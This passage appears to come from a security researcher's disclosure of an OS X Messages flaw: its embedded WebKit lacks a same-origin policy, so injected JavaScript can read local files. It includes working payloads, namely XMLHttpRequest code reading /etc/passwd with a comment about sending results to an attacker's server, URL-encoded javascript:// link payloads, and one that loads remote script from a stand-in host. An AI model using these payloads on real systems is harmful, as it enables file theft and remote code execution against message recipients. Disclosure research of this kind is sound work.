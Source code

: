 ![](images/webkit_origin.png)

However, the attackers code is executing in a full WebKit implementation, and therefore `XMLHttpRequest` is available at runtime. One of the key differences between an embedded version of WebKit and a web browser like Chrome or Safari is that the embedded version does not implement any same-origin policy (SOP), since it is a native desktop applciation. An attacker can take advantage of this to read files off the local filesystem without violating the same-origin policy by sending `XMLHttpRequest` GETs to `file://` URIs. The only requirement is that the attacker must know the full file path, relative file system paths (e.g. `~/.ssh/id_rsa`) cannot be used.

### Reading Files

For exmaple, the following JavaScript can be executed by the Messages application DOM to read the `/etc/passwd` file:

```
function reqListener () {
  prompt(this.responseText);
  // send back to attackers server here
}

var oReq = new XMLHttpRequest();
oReq.addEventListener("load", reqListener);
oReq.open("GET", "file:///etc/passwd");
oReq.send();
```

Converted into a URI payload the code appears as follows:

```
javascript://bishopfox.com/research?%0d%0afunction%20reqListener%20()%20%7B%0A%20%20prompt(this.responseText)%3B%0A%7D%0Avar%20oReq%20%3D%20new%20XMLHttpRequest()%3B%0AoReq.addEventListener(%22load%22%2C%20reqListener)%3B%0AoReq.open(%22GET%22%2C%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22)%3B%0AoReq.send()%3B
```

When clicked in the Messages application, the following prompt appears:

![](images/etc_passwd.png)

As the above vector is quite long and looks overly suspicious, it is possible to shorten the URI by dynamically loading JavaScript from a domain and including it to the DOM. For example, the following vector below injects the JavaScript from `http://example.com/1.js` into Message’s DOM:

```
javascript://bishopfox.com/research?%0a%28function%28s%29%7Bs.src%3D%27http%3A%2f%2fexample.com%2f1.js%27%3Bdocument.body.appendChild%28s%29%7D%29%28document.createElement%28%27script%27%29%29
```

The JavaScript file referenced `//example.com/1.js` in the above vector can contain arbitrary JavaScript instructions of an arbitrary length.

However, the OS X application sandbox did restricted file system access to only `~/Library/Messages/*` and some other non-user system directories such as `/etc/`.

### Stealing the Messages Database and Attachments
